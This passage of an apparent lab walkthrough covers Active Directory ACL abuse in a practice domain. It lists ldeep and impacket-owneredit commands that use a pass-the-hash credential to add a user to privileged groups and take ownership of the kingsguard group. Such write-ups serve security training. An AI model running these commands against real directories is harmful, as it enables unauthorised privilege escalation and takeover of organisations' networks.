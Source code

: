 - See the result
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 membersof 'Small Council'
```

![screenshot](pics/addself.png)

## AddMember on Group (Small Council -> dragonstone)

- Now as tyron we are in the small council, so we can add a member to dragonstone’s group.
- So we just add tyron just like we did before
```
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=DragonStone,OU=Crownlands,DC=sevenkingdoms,DC=local"
```
![screenshot](pics/addtoDragonStone.png)

## WriteOwner on Group (dragonstone -> kingsguard)

- Now with the writeOwner privilege we can change the owner of kingsguard to own the group

- Just like before we will use the impacket [fork](https://github.com/ThePorgs/impacket)
```
impacket-owneredit -action read -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
impacket-owneredit -action write -new-owner 'tyron.lannister' -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
```
![screenshot](pics/owneredit_read.png)
![screenshot](pics/owneredit_write.png)
